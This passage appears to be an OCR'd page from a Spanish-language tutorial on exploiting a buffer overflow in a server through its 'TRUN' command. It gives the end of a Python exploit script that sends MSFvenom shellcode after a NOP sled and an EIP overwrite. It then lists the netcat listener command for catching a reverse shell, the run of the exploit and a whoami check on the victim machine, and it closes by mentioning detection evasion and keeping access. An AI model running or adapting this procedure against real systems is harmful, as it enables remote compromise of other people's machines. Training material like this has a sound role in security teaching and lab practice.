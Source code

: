 ```python
    s.send(('TRUN /.:/' + shellcode))
    s.close()
except:
    print("Error al conectar con el servidor")
    sys.exit()
```

### Explicación del Script

* **NOP Sled (\x90)**: Se ha añadido un NOP sled de 32 bytes. El código 0x90 es la instrucción NOP (No Operation), que simplemente crea un "colchón" en el que el shellcode puede caer de manera segura y ejecutarse sin interrupciones.
* **Sobrescribir el EIP**: El EIP sigue sobrescrito con el valor 0x42424242 (representado por las letras "B"), pero esta vez se apunta a una dirección en la memoria que ejecutará el shellcode.
* **Shellcode**: El shellcode generado por MSFvenom se inserta al final del buffer, después del NOP sled, listo para ser ejecutado cuando se tome el control del flujo del programa.

### Configuración de Netcat para Escuchar la Conexión

Antes de ejecutar el script, se debe configurar Netcat en la máquina atacante para que escuche en el puerto designado (4444 en este caso):

```bash
nc -lvnp 4444
```

Esto permitirá capturar la conexión inversa desde la máquina víctima.

### Ejecución del Ataque

Con el servidor vulnerable ejecutándose en la máquina víctima, se lanza el script Python que contiene el shellcode:

```bash
python exploit.py
```

Una vez ejecutado, si todo ha sido configurado correctamente, la máquina víctima se conectará a la máquina atacante, y se obtendrá una shell remota en Netcat.

### Verificación del Acceso

Una vez que se ha obtenido la shell, se pueden ejecutar comandos en la máquina comprometida. Por ejemplo, para verificar el acceso:

```bash
whoami
```

Esto debería devolver el nombre del usuario que ejecuta el servidor vulnerable, confirmando que el atacante ha obtenido acceso al sistema.

### Próximos Pasos

A partir de aquí, el atacante tiene acceso total a la máquina víctima y puede realizar cualquier operación que desee. Sin embargo, en entornos más protegidos, se necesitaría implementar técnicas adicionales para evadir sistemas de detección y mantener el acceso.
